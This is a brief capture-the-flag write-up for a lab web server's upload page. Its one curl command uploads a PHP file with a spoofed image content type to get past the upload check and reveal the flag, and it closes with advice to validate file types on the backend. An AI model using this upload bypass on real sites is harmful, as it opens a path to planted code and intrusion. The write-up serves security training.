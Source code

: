 # 12_XSS_attack_upload

Any type of file can be uploaded

## Method & Manipulation

Go to http://192.168.1.59/?page=upload  
We can inspect the form input button and see it is set to `type=file`

## Manipulation

This means a php file can be uploaded.  
Curl will be used for this
```bash
curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@empty.php;type=image/jpeg' http://192.168.1.59/index.php\?page\=upload\#
```

This returns an html page with the flag

## Resolve

Always use strict types when uploading files & check file type on the backend as well.

## Resources

https://labs.f-secure.com/blog/getting-real-with-xss/
